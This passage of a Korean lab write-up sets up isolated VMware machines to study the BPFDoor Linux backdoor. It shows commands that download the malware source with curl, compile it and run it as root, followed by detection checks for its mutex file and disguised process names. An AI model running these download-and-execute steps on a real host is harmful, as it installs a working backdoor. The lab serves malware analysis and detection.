 ### 1) 실습 환경세팅

- VMware 가상환경을 구축하여 Attacker와 Victim 머신으로 실습을 진행하였다.

**Victim (ubuntu 24.04.2 LTS)**

1. attacker와 통신할 수 있는 네트워크 설정 (netplan)

    ```bash
    $ sudo cat /etc/netplan/50-cloud-init.yaml
    network:
      version: 2
      ethernets:
        ens33: # Host-only
          dhcp4: false
          addresses: [192.168.100.30/24]
        ens37: # NAT
          dhcp4: true
          addresses: [192.168.195.30/24]
          routes:
            - to: default
              via: 192.168.195.2
    ```

    - NAT 통신을 위한 IP 설정: 192.168.100.30

2. 원본 소스코드 다운로드 및 gcc 컴파일

    ```bash
    curl -o bpfdoor.c https://raw.githubusercontent.com/gwillgues/BPFDoor/main/bpfdoor.c
    ```

    ```bash
    gcc bpfdoor.c -o bpfdoor
    ```

3. root 권한으로 바이너리 파일 실행

    ```bash
    sudo ./bpfdoor
    ```

4. BPFDoor가 실행 중인지 확인
    1. mutex 파일 존재 여부 확인

        ```bash
        ls -l /var/run/haldrund.pid
        ```

    2. 위장한 프로세스명 찾기

        ```bash
        ps aux | grep -E "/sbin/udevd -d|/sbin/mingetty /dev/tty7|/usr/sbin/console-kit-daemon --no-daemon|hald-addon-acpi: listening on acpi kernel interface /proc/acpi/event|dbus-daemon --system|hald-runner|pickup -l -t fifo -u|avahi-daemon: chroot helper|/sbin/auditd -n|/usr/lib/systemd/systemd-journald"
        ```


**Attacker (ubuntu 24.04.2 LTS)**

1. Victim과 통신할 수 있는 네트워크 설정 (netplan)

    ```bash
    $ sudo cat /etc/netplan/50-cloud-init.yaml
    network:
      version: 2
